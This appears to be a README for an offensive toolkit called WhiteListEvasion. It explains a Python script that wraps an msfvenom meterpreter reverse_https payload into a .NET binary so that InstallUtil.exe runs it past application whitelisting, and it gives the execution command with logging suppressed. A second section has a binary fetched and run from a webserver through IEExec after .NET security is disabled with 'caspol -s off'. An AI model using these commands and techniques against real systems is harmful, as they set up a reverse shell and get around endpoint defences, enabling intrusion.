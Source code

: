 # WhiteListEvasion

1. InstallUtil.py

   Usage:
   python InstallUtil.py [--cs_file cs_filename] [--exe_name exe_filename] [--payload payload] [--lhost lhost] [--lport lport]

   python InstallUtil.py --cs_file temp.cs --exe_name temp.exe --payload windows/meterpreter/reverse_https --lhost 192.168.1.11 --lport 443

   Script that generates a .NET binary that attempts to leverage the InstallUtil.exe whitelist evasion technique.  this is accomplished by importing a msfvenom generated payload into the c_sharp template found here: http://www.room362.com/blog/2014/01/16/application-whitelist-bypass-using-ieexec-dot-exe/  . This template is then incorporated into the InstallUtil PoC found here: https://github.com/subTee/ShmooCon-2015/blob/master/CaseySmith-SimpleWindowsApplicationWhitelistingEvasion .  One thing of note:  The payload architecture must match the Framework subdir in the .NET path or the binary will crash.

  Script.cs and script.exe are example output from InstallUtil.py.  To execute the execute, simply get the binary on disk and then run (something much like):
  C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U script.exe

  Requires mono, mono-develop, Python 2.7+, msfvenom (from metasploit). Tested and verified the script on a Kali linux VM.  Both 32-bit and 64-bit binaries tested and verified on Windows 7 with .NET 4.5.    

2. Test64 (IEExec 64-bit test application)

	Host this binary on a webserver.  To observe the binary without .NET Security, open up an administrative console, cd to C:\Windows\Microsoft.NET\Framework\v2.05727\ and then run 'caspol -s off'.  In an another window (can be non administrative), cd to the same .NET directory and execute IEExec <path to your file hosted on webserver>.  An example would look like this:
	C:\Windows\Microsoft.NET\Framework\v2.05727\> IEExec http://testserver.org/files/test64.exe
	
	To observe with .NET Security enabled, just simply run the above without ever disabling caspol.  You should be able to pull down strings from a file hosted by a webserver, but unable to execute,read, or write anything on the host system.
	
	To build the binary, ensure you have the x64 profile set in Visual Studio 2013.
	
khr0x40sh@gmail.com 
